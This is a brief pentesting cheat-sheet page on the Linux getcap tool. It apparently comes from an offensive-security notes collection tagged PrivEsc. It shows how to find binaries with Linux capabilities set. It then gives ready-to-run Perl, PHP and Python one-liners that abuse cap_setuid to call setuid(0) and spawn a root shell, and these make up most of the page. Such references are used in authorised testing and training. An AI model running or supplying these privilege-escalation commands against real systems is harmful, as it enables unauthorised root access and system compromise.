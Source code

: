 ```yaml
---
title: Getcap
desc: Displays the capabilities on the queried files.
tags: [Linux, PrivEsc]
alts: [Find, Setcap]
website:
render_with_liquid: false
---
```


## Basic

```sh
getcap -r / 2>/dev/null
```

<br />

## Privilege Escalation (get 'root')

```sh
# Perl (ex. /usr/bin/perl = cap_setuid+ep)
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'

# PHP
php -r "posix_setuid(0); system('$CMD');"

# Python (ex. /usr/bin/python = cap_setuid+ep)
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```